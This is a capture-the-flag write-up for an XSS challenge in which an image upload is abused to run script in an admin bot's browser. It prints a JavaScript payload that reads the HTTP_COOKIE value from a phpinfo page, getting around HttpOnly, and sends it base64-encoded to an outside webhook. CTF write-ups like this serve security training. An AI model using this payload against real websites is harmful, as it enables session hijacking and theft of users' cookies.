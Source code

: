 # XSS 1
> `-`

## About the Challenge
We are given a 2 websites (website for testing and bot to get the flag)

## How to Solve?
In the website there is a feature to upload an image file like this

![preview](images/preview.png)

And after we upload a file for example `image.png`, we can access the file by accessing `/uploads/RANDOMCHARACTER/image.png` endpoint. In this chall, we only can upload a file that using `.png` extension. To bypass this whitelist, We need to upload a file with the `.png` extension so the server will read the file as hidden directories.

At first we can get the flag easily and then the admin revise the chall and added more difficulty by adding `HttpOnly` flag on the bot so we need to bypass the `HttpOnly` flag. Luckily there is `phpinfo` file and we can use it to bypass the `HttpOnly` flag. So the payload will look like this

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
var url = '[https://REDACTED/info.php](http://172.174.108.207:90/xss1/info.php)';
req.withCredentials = true;
req.open('GET', url, false);
req.send();

function reqListener() {
var req2 = new XMLHttpRequest();
const sess = this.responseText.substring(this.responseText.indexOf('HTTP_COOKIE') + 1 );
req2.open('GET', 'https://webhook/?data=' + btoa(sess), false);
req2.send()
};
```

And then upload the payload and send the file to the bot and we can get the flag

```
0xL4ugh{Fre333e_Plaestine!!_My_bRUH}
```